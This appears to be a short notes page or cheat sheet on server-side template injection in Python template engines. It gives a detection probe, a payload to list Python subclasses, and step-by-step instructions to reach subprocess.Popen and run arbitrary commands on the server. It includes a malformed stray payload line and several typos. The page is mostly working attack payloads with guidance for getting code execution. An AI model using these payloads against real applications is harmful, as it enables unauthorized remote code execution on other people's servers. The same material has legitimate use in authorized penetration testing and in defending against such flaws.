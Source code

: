 #### Sometimes when user input is accepted, either intentional or unintentional we get XSS, sometimes this also means we cen get template injection

[Report on Template Injection](https://portswigger.net/research/server-side-template-injection)

test with `{{'7'*7}}`

`{{''.__class__.mro()[1].__subclasses__()}}` _you may need to change dict selection of class to get the output of interesting functions_

_once you find it, do a replace all '>' with a newline, so that you can determine which number to specify as subclass_

Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.
You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <class 'subprocess.Popen'>:

`{{''.__class__.mro()[1].__subclasses__()[X]}}`

'.__class__.mro()[2].__subclasses__()[233](["PATH_TO_BINARY","ARG_1"])

Where X is the integer you need to find.

Finally, you can call this method using:

`{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}`
`{{''.__class__.mro()[2].__subclasses__()[233](["PATH_TO_BINARY","ARG_1"])}}`

Where:

`X` was found previously.
`COMMAND` is the command you want to run.
Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).
